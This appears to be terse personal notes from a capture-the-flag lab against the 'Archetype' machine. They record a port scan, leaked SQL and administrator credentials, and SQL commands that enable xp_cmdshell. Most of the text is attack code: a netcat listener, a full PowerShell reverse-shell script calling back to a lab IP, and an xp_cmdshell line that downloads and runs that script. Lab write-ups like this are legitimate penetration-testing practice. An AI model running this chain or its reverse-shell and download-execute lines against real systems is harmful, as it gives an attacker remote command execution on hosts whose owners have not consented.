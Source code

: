 # Scan





## Oopsie

## Archetype 10.10.10.27
### scang
PORT STATE SERVICE
- 135/tcp open msrpc
- 139/tcp open netbios-ssn
- 445/tcp open microsoft-ds
- 1433/tcp open ms-sql-s

### attack
Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;

 this turns on advanced options and is needed to configure xp_cmdshell
`sp_configure 'show advanced options', '1'
RECONFIGURE
-- this enables xp_cmdshell
sp_configure 'xp_cmdshell', '1' 
RECONFIGURE
`

nc -nlvp 5555

rs.ps1
```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.224",5555);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = ( New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```



python3 -m http.server 80

xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.224/rs.ps1\");"


net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!